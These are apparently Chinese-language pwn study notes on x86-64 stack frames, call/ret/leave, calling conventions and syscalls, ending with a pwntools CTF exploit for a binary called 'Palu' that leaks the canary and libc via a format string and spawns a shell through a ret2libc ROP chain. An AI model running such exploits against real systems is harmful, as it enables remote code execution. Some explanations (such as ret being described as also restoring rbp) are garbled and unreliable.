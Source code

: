 我们下面将会详细的阐述，我们是怎么来调用我们的函数的，我们对于我们的函数调用我们首先由下面的部分：
1. 函数调用关系由栈来维护，函数调用关系符合 LIFO
2. 操作系统为每个程序都设置了一个栈，程序每个独立的函数都有独立的栈帧
3. 栈地址从高地址向低地址增长
4. 函数种有下面的几种基本操作：pop, push
5. 函数调用指令：call，返回指令 ret
6. 栈中保存函数返回地址，栈帧，局部变量等信息。

## pop 指令
在我们的 pop 指令中，我们的作用是将我们的栈顶的数据弹出到**寄存器**，然后栈顶指针向下移动一个单位。举例来说，`pop rax`，作用就是 `mov rax [rsp];add rsp 8`

## Push 指令
我们的 push 指令中，我们的作用是将我们的压栈，将我们的栈顶指针移动一格向上单位的距离，然后将一个寄存器的值存放在栈顶。具体来说 `push rax` 其实际效果就是 `sub rsp 8;mov [rsp] rax`

因此，我们就可以知道我们的 `jmp` 和 `call` 的区别，我们再进行我们的 jmp 的时候，只 mov 了我们的 rip，而没有改变我们的 rsp，我们的 call 指令**还需要去移动我们的 rip 指针**。其中，我们可以理解我们的 `jmp 1234h=mov rip 1234h`，我们的 `call 1234h=push rip;mov rip 1234h`。

这个时候我们的 ret 就相当于进行我们的 `pop rip` 用来进行我们的函数操作，

## 调用过程：
```
void func_a(){
	return;
}
void func_b(){
	func_a()；
	int c=1;
	return;
}
int main(){
	func_b();
	int a=2;
	return 0;
}
```

我们从我们的 main 函数开始，逐步分析我们的战阵变化。
第一步：我们在我们的 main 函数栈帧当中 call 我们的 function b，也就相当于 `push rip;mov rip func_b`，也就是把我们的 rip 放在我们的当前栈顶当中，然后再把我们的 rip 移动到我们的 func_b 函数所在的位置。**其中我们的 rip 就是我们返回后我们需要执行的下一条指令**。也因此，我们可以通过覆盖这一个元素来得到我们的最后的答案。

此时，我们的栈帧如下所示：
![[Pasted image 20240709235004.png]]

第二步：这个时候我们的 RIP 指向我们的 `func_b` 理论上已经足够了，但是我们还需要**维护我们的 func_b 的栈帧**。于是，我们就可以通过我们的下面的方式来维护：
1. Push rbp 将调用函数的栈底指针保存
2. Mov rbp rsp 将栈底指针指向现在的栈顶
3. Sub rsp xxx 开辟被调用函数的栈帧，此时上一步的 rbp 就指向我们的 `func_b` 函数的栈底。

![[Pasted image 20240709235449.png]]

也因此，我们的**rsp**永远指向栈顶，我们的 **rbp**永远指向我们的栈底。

第三步：我们执行完毕了我们的函数 2，我们考虑这个时候，我们怎么返回到我们的原来的函数，这个时候我们考虑利用我们的 leave 函数，我们的 `leave` 指令的作用，就是维护我们的栈帧。通常出现在函数的结尾，与 `ret` 连用。

我们的 leave 指令，作用是**维护我们的栈帧**，其实际作用为：`mov rsp rbp;pop rbp`,也就是让我们的**栈底回到我们的原来的位置**。

同时，我们还会在我们的函数执行结束返回时，执行一个 `ret` 指令，实际效果就是：`mov rsp rbp;pop rbp;pop eip` 此时，我们观察到我们的执行后的栈帧**恢复到了与我们的调用前完全一致的状态**。
![[Pasted image 20240709235004.png]]
## 参数传递：
在我们的参数传递过程中，我们的参数传递**遵循我们的对应的调用原则**，我们的对应的答案如下所示：
一般来说，一个函数的返回值会存储到 rax 寄存器，`x86-64` 的调用约定为：
从左至右参数一次传递给 `rdi,rsi,rdx,rcx,r8,r9`,如果我们的一个函数的参数多余 6 个，则从右到左压入战中传递。

## 系统调用：
我们在我们的系统中，我们可以通过我们的 `syscall` 指令来调用我们的系统函数，调用时需要指明我们的系统调用好，**我们的系统调用号存储在我们的 rax 寄存器中**，同时我们还需要布置好我们的**其他参数**，然后再去执行我们的 syscall 即可。

常见的系统调用表：

| 调用号码 | 名称    |
| ---- | ----- |
| 0    | read  |
| 1    | write |
|      |       |

具体的信息，我们可以查我们的百度来找到，在这里不再赘述。其中比较重要的就是我们的 `mmap.read.write,open,close，execv` 等等调用。

例如：
```
mov rax 0
mov rdi 0
mov rsi buf
mov rdx size;
syscall--->read(0,buf,size)
```


```python
from pwn import *

context(log_level='debug',arch='amd64',os='linux')

filename = './Palu'
io = process(filename)
#io = remote("192.168.20.1",9078)
elf = ELF(filename)
#libc = elf.libc
libc = ELF('./libc.so.6')
#print(libc)
#exit(0)
def debug():
	gdb.attach(io,"b *0x400e16")

# 1.泄露libc和canary
io.sendafter("Please tell me your name\n","%23$p-%25$p")
canary = int(io.recv(18),16)
io.recvuntil(b'-')
libc_base = int(io.recv(14),16) - 0x20840
print("canary:" + hex(canary))
print("libc_base:" + hex(libc_base))
system_addr = libc_base + libc.sym['system']
pop_rdi = libc_base + 0x0000000000021112# pop rdi; ret; 
ret = 0x0000000000400761# ret;
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# 2.进行decode操作
io.sendlineafter("Please tell me your options\n","2")
#debug()
io.sendlineafter("Enter a palu64 string to decode: ","UGFsdQ==") # 解码后等于Palu，可以绕过检测

# 正常的ret2libc
payload = flat([cyclic(0x18),canary,0x12345678,pop_rdi,bin_sh_addr,ret,system_addr])
io.sendafter("A small gift",payload)

io.interactive()

```